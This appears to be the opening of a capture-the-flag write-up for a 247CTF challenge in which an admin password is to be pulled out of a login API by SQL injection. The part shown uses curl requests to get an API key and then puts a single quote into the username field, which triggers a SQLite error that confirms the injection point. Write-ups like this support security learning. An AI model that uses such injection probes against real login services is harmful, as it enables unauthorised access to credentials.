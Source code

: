 # THE FLAG API KEY [HARD]

## Description

> We created an API service which has a few endpoints. Can you use the API to figure out the admin user’s password? The admin user’s password uses the same character set and length as the flag (32-HEX).

## Source Code

No source code.
Instead, API Documentation is provided in this challenge.

![api_documentation.png](img/api_documentation.png)

## Short Solution Description / Tags

SQL Injection with limited attempts

## SQLi Detection

```console
$ curl -s https://4a86320794c65bcd.247ctf.com/api/get_token
{"message":"The API key has been reset to c036edc7a7fdf17d6053fdb7b89655d7!","result":"success"}

$ curl -s https://4a86320794c65bcd.247ctf.com/api/login -d "username=admin" -d "password=" -d "api=c036edc7a7fdf17d6053fdb7b89655d7"
{"message":"Invalid username and password!","result":"invalid"}

$ curl -s https://4a86320794c65bcd.247ctf.com/api/login -d "username=admin'" -d "password=" -d "api=c036edc7a7fdf17d6053fdb7b89655d7"
{"message":"SQLite error!","result":"error"}
```
